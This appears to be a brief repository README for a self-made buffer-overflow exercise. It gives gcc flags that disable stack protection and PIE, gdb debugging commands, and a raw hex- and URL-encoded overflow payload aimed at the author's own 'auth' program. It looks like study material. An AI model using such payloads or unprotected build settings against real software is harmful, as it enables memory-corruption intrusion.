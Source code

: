 # buffer_overflow_attack
it important to notice that we must install mingw compiler first
for windows run gcc -g -fno-stack-protector main.c -o auth -W -no-pie -lws2_32 //the -g is for debugging and the rest is to make sure that stack pointer is not protected
now run the ./file_name // the exe file
b function_name // breakpoint
p var_name // print the details of the var (including address in the stack pointer)


\x00\x00\x00\x00\x00\xee\x02\x00\x00\x00\x00\x00\x00\x90\xfc\x61\x00\x00\x00\x00\x00\x21\x18\x40
%00%00%00%00%00%ee%02%00%00%00%00%00%00%90%fc%61%00%00%00%00%00%21%18%40

/n
info frame
